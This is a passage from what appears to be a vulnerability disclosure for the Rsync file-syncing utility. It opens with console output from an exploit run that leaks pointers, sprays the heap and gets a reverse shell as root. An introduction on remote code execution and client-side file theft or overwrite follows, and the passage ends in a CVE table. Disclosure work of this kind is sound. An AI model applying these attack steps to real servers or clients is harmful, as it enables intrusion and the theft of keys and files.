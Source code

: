 </PRE>
```console
$./exploit rsync://example.com:873/files
[*] Connected to example.com:873 on module files
[*] Received file list
[*] Downloaded target file 'foo': index 1, size 1417 (73a2bc1480ce5898)
[*] Starting leak...
[+] Leaked .text pointer 0x5572190ca847
[*] base: 0x557219088000
[*] shell_exec: 0x5572190b2a50
[*] ctx_evp: 0x557219114a28
[*] Spraying heap...
[*] Setting up reverse shell listener...
[*] Listening on port 1337
[*] Sending payload...
[+] Received connection! Dropping into shell
# id
uid=0(root) gid=0(root) groups=0(root)
```
<PRE>

-- 0 - Introduction

We found reliably exploitable memory corruption and path traversal issues
in the file-syncing utility Rsync [1]. The memory corruption bugs allow an
unauthenticated attacker to reliably execute arbitrary code on public
Rsync servers. The path traversal issues allow a rogue Rsync server
to read and write arbitrary files on clients' machines.

Rsync is often deployed alongside HTTP and FTP services offered by package
mirrors. There is a precedent of past attacks on Rsync,  where an attacker
used a Rsync vulnerability to compromise a Gentoo mirror [2].
In this report, we analyze different hypothetical scenarios of an attacker
exploiting the vulnerabilities we found, and examine how protected supply
chains are against a compromised upstream server.

The Client-to-Server vulnerabilities are remotely exploitable in default
configurations. An attacker only needs read access to a public instance,
common for package mirrors.

Depending on the software and protections running on a compromised server,
an attacker could launch supply chain attacks. We will explore these
scenarios and the vulnerable servers we confirmed.

Alternatively, an attacker can take over trusted, public servers to
read/write arbitrary files on clients' machines. They can extract
sensitive data like SSH keys, or execute malicious code by overwriting
files such as .bashrc, ~/.popt, or others.

-- 1 - Vulnerabilities

The following table provides a brief overview of the vulnerabilities we
found.
 
+------------------+-----------------------+-----------------------------+
| CVE              | Impact                | Description                 |
+------------------+-----------------------+-----------------------------+
| CVE-2024-12084   | Heap Overflow         | Heap Buffer overflow in     |
|                  |                       | Checksum comparison         |
|                  |                       | server-side                 |
+------------------+-----------------------+-----------------------------+
| CVE-2024-12085   | Info Leak             | Uninitialized stack buffer  |
|                  |                       | contents can be leaked by   | 